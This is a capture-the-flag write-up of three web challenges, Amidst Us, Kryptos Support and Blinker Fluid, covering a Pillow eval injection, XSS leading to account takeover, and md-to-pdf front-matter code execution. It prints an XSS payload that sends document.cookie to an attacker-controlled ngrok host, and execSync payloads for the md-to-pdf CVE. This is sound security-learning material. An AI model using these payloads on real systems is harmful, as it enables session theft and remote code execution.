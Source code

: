 # web

## Amidst Us
> Solved by : thewhiteh4t, Starry-Lord, Taz34, Avantika, Legend

![](https://i.imgur.com/r7mbpDi.png)

The downloadable files gives us a few clues in the files in requirements.txt and util.py:

1. It’s a python environment
2. It uses a vulnerable version of the python Pillow library

![](https://i.imgur.com/oeEjFBA.png)

https://github.com/python-pillow/Pillow/pull/5923

link: [python-pillow/Pillow#5923](https://github.com/python-pillow/Pillow/pull/5923)

This exchange provided some great insights on how to trigger SSRF

In util.py we find eval is being used on the data provided in the POST request, which allows us to upload a random image with background rgb parameters.

After a couple trial and errors we managed to grab the flag.txt and send it to our webhook by replacing one of the RGB values of “background”:

![](https://i.imgur.com/8kemcYF.png)

```
HTB{i_slept_my_way_to_rce}
```

----------

## Krpytos Support
> Solved By : thewhiteh4t

In this one we land on a support page where we can send a POST request, it also contains a backend button which takes us to a login page…

first I thought its a cookie stealing challenge so I send the following payload : 

```html
<img src=x onerror=this.src='<NGROK-LINK-HERE>/?'+document.cookie;>
```

and I got a JWT : 

```
session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im1vZGVyYXRvciIsInVpZCI6MTAwLCJpYXQiOjE2NTI1MzQ4ODV9.JO12yEA44QxXgfUmL3n6Sm4Et2AJc5rkvXkvSMdmFOI
```

decoded :

```
{
  "username": "moderator",
  "uid": 100,
  "iat": 1652534885
}
```

and I got two interesting things here, now the cookie did not work for login for some reason so I went back to enum and found an API endpoint :

```
/api/users/update
```

using XHR I sent the following request to change the password :

![](https://i.imgur.com/mVy9Zs9.png)

logged in with the new password :

![](https://i.imgur.com/lkqwQPZ.png)

but moderator doesn’t have the flag so I had to escalate to admin…

using the same payload above I just changed the `uid` from 100 to 1 and logged in again, I could have got it one go but well… 

![](https://i.imgur.com/JI1lO3O.png)

----------

## Blinker fluid
> Solved By : Bobbysox, Legend, Starrylord, thewhiteh4t

In blinker fluid challenge our markdown input gets converted into a PDF file available for download.

in the site source we checked `package.json` file :

```json
{
        "name": "blinker-fluids",
        "version": "1.0.0",
        "description": "",
        "main": "index.js",
        "scripts": {
                "start": "node index.js"
        },
        "keywords": [],
        "author": "rayhan0x01",
        "license": "ISC",
        "dependencies": {
                "express": "^4.17.3",
                "md-to-pdf": "^4.1.0",
                "nunjucks": "3.2.3",
                "sqlite-async": "1.1.3",
                "uuid": "8.3.2"
        },
        "devDependencies": {
                "nodemon": "^1.19.1"
        }
}
```

interesting things in this file are : 

```
"md-to-pdf": "^4.1.0"
"nunjucks": "3.2.3"
```

we quickly found the following CVE for `md-to-pdf` : 

https://security.snyk.io/vuln/SNYK-JS-MDTOPDF-1657880

payload as shown in the link : 

```
---js\n((require("child_process")).execSync("id > /tmp/RCE.txt"))\n---RCE
```

the payload did not work for us as it is so we looked for more info on the same and found this : 

https://github.com/11ty/eleventy/issues/1208


[11ty/eleventy#1208](https://github.com/11ty/eleventy/issues/1208)

so basically nunjucks was having issues with single line payload so we settled on the following : 

```
---js
((require("child_process")).execSync("cat ../flag.txt > static/invoices/rce.txt"))
---
```

line 1 and 3 needed to be exactly as above for it to work and we redirected flag to a file in invoices directory…

```
HTB{bl1nk3r_flu1d_f0r_int3rG4l4c7iC_tr4v3ls}
```